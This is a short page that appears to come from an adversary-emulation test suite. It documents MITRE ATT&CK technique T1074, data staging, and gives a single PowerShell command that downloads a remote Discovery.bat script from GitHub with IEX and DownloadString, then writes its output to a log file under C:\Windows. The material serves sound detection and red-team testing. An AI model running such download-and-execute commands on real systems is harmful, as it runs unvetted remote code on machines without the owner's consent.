 # Data Staged

MITRE ATT&CK Technique: [T1074](https://attack.mitre.org/wiki/Technique/T1074)

### Stage data from Discovery.bat

Input:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/Discovery.bat')" > c:\windows\pi.log
